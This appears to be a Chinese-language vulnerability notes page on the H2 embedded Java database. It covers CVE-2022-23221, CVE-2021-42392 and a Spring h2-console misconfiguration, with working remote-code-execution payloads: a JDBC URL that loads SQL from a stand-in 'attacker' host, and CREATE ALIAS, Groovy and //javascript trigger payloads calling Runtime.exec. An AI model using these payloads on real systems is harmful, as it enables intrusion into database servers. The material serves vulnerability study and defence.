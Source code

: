 # H2 Database

H2是一个用Java开发的嵌入式数据库

官方网站：http://www.h2database.com/html/main.html

历史安装版本下载地址：http://www.h2database.com/html/download-archive.html

重点历史漏洞：
| 漏洞编号 | 漏洞类型 | 影响版本 |
|:---:|:---:|:---:|
|CVE-2021-23463|SQL|< 2.0.202 |
|CVE-2021-42392|RCE|<= 2.0.204|
|CVE-2022-23221|RCE|< 2.1.210|
|未知|未授权访问|未知|

## CVE-2022-23221
参考链接： https://packetstormsecurity.com/files/165676/H2-Database-Console-Remote-Code-Execution.html
对于数据库URL的官方说明： http://www.h2database.com/html/features.html

这个漏洞用到的payload
```
jdbc:h2:mem:1337;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;INIT=RUNSCRIPT
FROM 'http://attacker/evil.sql';'\
```
`INIT`参数是H2数据库的JDBC URL支持的一个配置，即在连接数据库时支持执行一条初始化命令，但命令中不能包含分号。这个Payload又借助了另一个命令`RUNSCRIPT`，该命令用于执行SQL文件，例如`RUNSCRIPT FROM './evil.sql'`，对应的处理类是`h2/src/main/org/h2/store/fs/FilePathDisk.java`
```
    public InputStream newInputStream() throws IOException {
        if (name.matches("[a-zA-Z]{2,19}:.*")) {
            if (name.startsWith(CLASSPATH_PREFIX)) { // classpath: ...}
            URL url = new URL(name);
            return url.openStream();
        }
        FileInputStream in = new FileInputStream(name);
        IOUtils.trace("openFileInputStream", name, in);
        return in;
    }
```
而这个类再读取数据时，也可以读取url地址。所以就可以将命令执行的sql写到文件中。进而造成RCE。参考链接中给出的sql内容如下，也可以参照文章下方的命令执行部分的sql，实现JDBC注入造成命令执行
```
CREATE TABLE test (
     id INT NOT NULL
 );

CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS '//javascript
var fos = Java.type("java.io.FileOutputStream");
var b = new fos ("/tmp/pwnedlolol");';

INSERT INTO TEST VALUES (1);
```

## CVE-2021-42392
参考链接： https://jfrog.com/blog/the-jndi-strikes-back-unauthenticated-rce-in-h2-database-console/

## Spring+H2 未授权访问
SpringBoot配置H2一般如下，这样会为web应用增加一个路径`/h2-console/`，这个默认路径可以通过`spring.h2.console.path`来修改。
```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```
而spring.h2.console.settings.web-allow-others设置为true，就会允许任意用户访问console。造成未授权访问。然后可以与上述JNDI攻击配合。

## 命令执行
https://www.h2database.com/html/commands.html

根据上述官方官方文档，H2支持的命令中`CREATE ALIAS`和`CREATE TRIGGER`可以让用户自定义函数（UDF），P牛给出一个自定义shell函数的写法，其中两个`$`符号表示无需转义的长字符串。
```
CREATE ALIAS shell AS $$void shell(String s) throws Exception { java.lang.Runtime.getRuntime().exec(s);
}$$;
SELECT shell('cmd /c calc.exe');
```
这个利用的前提是（1）h2 console支持“创建”数据库，如果默认不支持则需要在启动console时添加`-ifNotExists`参数（2）目标系统配置了javac （3）创建UDF并执行


## 不出网命令执行
后来P牛也提到，如果实战中，遇到不出网的情况，上面CVE-2022-23221从url中加载sql文件就无法生效。init只能执行一条sql。也就是只能定义UDF不能执行UDF。就需要在定义的时候就让代码执行。然后提出了利用Groovy元编程的技巧，在编译Groovy语句(而非执行时)就执行攻击者预期的代码。
```
jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS shell2 AS $$@groovy.transform.ASTTest(value={
assert java.lang.Runtime.getRuntime().exec("cmd.exe /c calc.exe") })
def x$$
```
但是这个不出网利用要用到本地的groovy依赖，并且这个groovy依赖不是常见的groovy库，而是groovy-sql，依赖如下
```
<dependency>
  <groupId>org.codehaus.groovy</groupId>
  <artifactId>groovy-sql</artifactId>
  <version>3.0.8</version>
</dependency>
```

这个限制就很难了。所以P牛又提到了`CREATE TRIGGER`。官方文档表明，可以使用`javax.script.ScriptEngineManager`创建org.h2.api.Trigger的实例。来解析javascript或ruby脚本。由于`javax.script.ScriptEngineManager`是jdk自带的，避免了需要`groovy-sql`这种第三方依赖的问题。

而Trigger在编译对象时，只通过前缀来判断脚本。`org.h2.schema.TriggerObject@loadFromSource`代码如下
```java
if (SourceCompiler.isJavaxScriptSource(triggerSource)) {
    return (Trigger) compiler.getCompiledScript(fullClassName).eval();
}

public static boolean isJavaxScriptSource(String source) {
    return isJavascriptSource(source) || isRubySource(source);
}

private static boolean isJavascriptSource(String source) { 
    return source.startsWith("//javascript"); // 
}

private static boolean isRubySource(String source) { 
    return source.startsWith("#ruby");
}
```
代码表明只要以`//javascript`开头就认为是javascript脚本，构造的payload如下。`//javascript`后面需要有个换行！这个jdbc url相对上面的payload来讲，没有什么限制。只要在paylaod可控的背景下就可以攻击。
```
jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
    java.lang.Runtime.getRuntime().exec('cmd /c calc.exe')
$$
```

很多攻击是基于H2 database console界面的，利用方式存在一些限制。但是如果能直接控制JDBC URL的场景，就没有如下的限制。
```
开启 -webAllowOthers 选项，支持外网访问
开启 -ifNotExists 选项，支持创建数据库
```

